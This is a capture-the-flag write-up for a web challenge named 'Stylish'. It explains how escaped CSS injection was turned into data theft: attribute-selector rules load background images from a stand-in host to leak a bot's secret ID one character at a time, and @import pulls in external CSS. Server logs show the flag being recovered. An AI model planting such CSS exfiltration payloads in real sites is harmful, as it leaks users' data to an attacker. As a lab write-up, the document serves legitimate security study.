

# Stylish

You can style the wack attack logo and share your wack creations with our admin!

http://ctf.wackattack.eu:5023

[⬇️ stylish_handout.zip](./stylish_handout.zip)

# Writeup

This took a while, examinating the site  we can inject any CSS  we want into a CSS tag but the data is escaped, so quotes are replaced with `&quot;` and so on. So  we cannot just end the `style` tag and inject my own `script` tag.

We can also here ask a bot to visit the page, the textarea`s ID attribute is the UUID of the user, the UUID of the bot is the flag we are after. So when the bot visits our style the flag is in the textarea's id attribute.

After googling `data exfil using css`  we found a few articles about how to exfiltrate data using CSS. The idea is to use the `background-image` property and load an image from a server with the data in the URL. But since  we cannot set any data it seems weird? 

But to the rescue are [CSS attribute selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).  we can craft a CSS selector that selects the textarea where the ID starts with any letter and set the background image of that.


```css
textarea[id^="wack{a"] { background-image: url(http://myserver.com/exfil/a); }
textarea[id^="wack{b"] { background-image: url(http://myserver.com/exfil/b); }
textarea[id^="wack{c"] { background-image: url(http://myserver.com/exfil/c); }
and so on..
```

So when the ID starts with something the url is loaded and we know what that data is. But the issue are quotes, we need quotes in that field. Again after some testing we figured out that we could load externally hosted css using `@import` and that would not be escaped. So we could load a css file from our server and exfiltrate the data.

Sending the payload:



Then hosting a file `exfil.css` with a full set of characters allowed in flags we could no exfiltrate the flag character by character.

Instead of doing this manually we made a python script to do this [genexfilcss.py](./genexfilcss.py). Starting this and asking the admin to visit the page with @import statement it would add one new letter every time the bot visited the page.

```bash
Serving at port 8000
Got another char: s, flag: wack{s
8.8.8.8 - - [20/Oct/2024 01:16:03] "GET /exfil/s HTTP/1.1" 200 -
Got another char: t, flag: wack{st
8.8.8.8 - - [20/Oct/2024 01:16:16] "GET /exfil/t HTTP/1.1" 200 -
Got another char: y, flag: wack{sty
8.8.8.8 - - [20/Oct/2024 01:16:24] "GET /exfil/y HTTP/1.1" 200 -
Got another char: l, flag: wack{styl
8.8.8.8 - - [20/Oct/2024 01:16:33] "GET /exfil/l HTTP/1.1" 200 -
Got another char: 1, flag: wack{styl1
8.8.8.8 - - [20/Oct/2024 01:17:36] "GET /exfil/1 HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1s
8.8.8.8 - - [20/Oct/2024 01:17:44] "GET /exfil/s HTTP/1.1" 200 -
Got another char: h, flag: wack{styl1sh
8.8.8.8 - - [20/Oct/2024 01:17:51] "GET /exfil/h HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_
8.8.8.8 - - [20/Oct/2024 01:17:58] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: 3, flag: wack{styl1sh_3
8.8.8.8 - - [20/Oct/2024 01:19:38] "GET /exfil/3 HTTP/1.1" 200 -
Got another char: x, flag: wack{styl1sh_3x
8.8.8.8 - - [20/Oct/2024 01:19:46] "GET /exfil/x HTTP/1.1" 200 -
Got another char: p, flag: wack{styl1sh_3xp
8.8.8.8 - - [20/Oct/2024 01:20:09] "GET /exfil/p HTTP/1.1" 200 -
Got another char: l, flag: wack{styl1sh_3xpl
8.8.8.8 - - [20/Oct/2024 01:20:23] "GET /exfil/l HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0
8.8.8.8 - - [20/Oct/2024 01:20:31] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: i, flag: wack{styl1sh_3xpl0i
8.8.8.8 - - [20/Oct/2024 01:20:39] "GET /exfil/ we HTTP/1.1" 200 -
Got another char: t, flag: wack{styl1sh_3xpl0it
8.8.8.8 - - [20/Oct/2024 01:20:46] "GET /exfil/t HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1sh_3xpl0its
8.8.8.8 - - [20/Oct/2024 01:20:52] "GET /exfil/s HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_3xpl0its_
8.8.8.8 - - [20/Oct/2024 01:20:59] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: 1, flag: wack{styl1sh_3xpl0its_1
8.8.8.8 - - [20/Oct/2024 01:21:06] "GET /exfil/1 HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1sh_3xpl0its_1s
8.8.8.8 - - [20/Oct/2024 01:21:14] "GET /exfil/s HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_3xpl0its_1s_
8.8.8.8 - - [20/Oct/2024 01:21:21] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: c, flag: wack{styl1sh_3xpl0its_1s_c
8.8.8.8 - - [20/Oct/2024 01:21:28] "GET /exfil/c HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0its_1s_c0
8.8.8.8 - - [20/Oct/2024 01:21:35] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0its_1s_c00
8.8.8.8 - - [20/Oct/2024 01:21:44] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: l, flag: wack{styl1sh_3xpl0its_1s_c00l
8.8.8.8 - - [20/Oct/2024 01:21:50] "GET /exfil/l HTTP/1.1" 200 -
Got another char: D, flag: wack{styl1sh_3xpl0its_1s_c00lD
8.8.8.8 - - [20/Oct/2024 01:21:57] "GET /exfil/%7D HTTP/1.1" 200 -
```

The last one faild a bit since the `}` is not allowed in a URL so it was URL encoded. But the flag is `wack{styl1sh_3xpl0its_1s_c00lD}`
